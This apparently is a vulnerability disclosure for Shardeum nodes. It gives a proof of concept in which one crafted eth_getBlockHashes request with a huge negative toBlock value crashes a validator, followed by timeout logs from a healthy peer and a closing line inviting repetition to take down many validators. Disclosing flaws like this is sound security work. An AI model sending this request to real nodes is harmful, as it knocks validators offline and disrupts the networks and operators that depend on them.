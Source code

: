         
## Proof of concept
## Proof of Concept

**Step 1-** Start the Shardeum network locally.

**Step 2-** Wait until cycle counter 15, where all nodes are active.

**Step 3-** Visit the following link: http://`SERVER_IP`:`VICTIM_PORT`/eth_getBlockHashes?fromBlock=0&toBlock=-9999999999999999

> Replace `SERVER_IP` with the IP of the server and `VICTIM_PORT` with the PORT where the victim node is running.

You have now bricked the node.

- Visit the network monitor at `http://SERVER_IP:3000` and you will see a red dot over the victim node, instead of a green one.

- Some nodes will try to interact with the victim and all their messages will timeout.

Below is an example of the output from a healthy node running in port 9002, trying to interact with the victim node to compare certs:

```
[2024-07-27T23:52:09.028] [ERROR] main - Network timeout (askBinary) on binary/compare_cert: askBinary: request timed out. "key_binary/compare_cert_f94cx0831f_1722142324006_33" 
Stack trace:
Error: askBinary: request timed out. "key_binary/compare_cert_f94cx0831f_1722142324006_33"
    at onTimeout (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/src/network/index.ts:455:23)
    at Timeout.reqTimeoutScheduler [as _onTimeout] (/home/z/Documents/Temporal/playground/shardeum/pocs/server4/shardus-core/node_modules/@shardus/net/src/index.ts:233:5)
    at listOnTimeout (node:internal/timers:571:11)
    at processTimers (node:internal/timers:512:7) node: Node ID : 689903b9dd55fb9078f9d7204a8ac3755119dfdc99f956f1ab41005616fd60ef Node Address : fbb6f5d02245453e8d53f2e56127e8bde9f56a393dd87efa630ecca845555860 externalPort : 9005 externalIP : 127.0.0.1
```
> This output is from a log file located at `./instances/shardus-instance-9002/logs/main.log` - the victim node was running at port 9005 and the healthy one trying to contact him was at port 9002.

Repeat **Step 3** as many times as desired to take down as many validators as you wish.